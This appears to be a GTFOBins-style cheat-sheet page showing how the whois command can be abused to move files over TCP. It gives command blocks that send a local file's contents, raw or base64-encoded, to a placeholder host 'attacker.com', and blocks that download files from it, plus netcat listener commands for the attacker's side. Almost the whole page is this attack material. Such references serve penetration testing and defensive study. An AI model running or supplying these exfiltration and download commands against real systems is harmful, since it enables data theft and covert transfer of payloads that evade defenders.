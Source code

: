 # GTFOBin: whois

`whois` hangs waiting for the remote peer to close the socket.

## File upload

It can exfiltrate files on the network.

Send a text file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
whois -h $RHOST -p $RPORT "`cat $LFILE`"
```

Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
whois -h $RHOST -p $RPORT "`base64 $LFILE`"
```

## File download

It can download remote files.

Fetch remote text file from a remote TCP port. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
whois -h $RHOST -p $RPORT > "$LFILE"
```

Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 12345` on the attacker box to send the file.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
```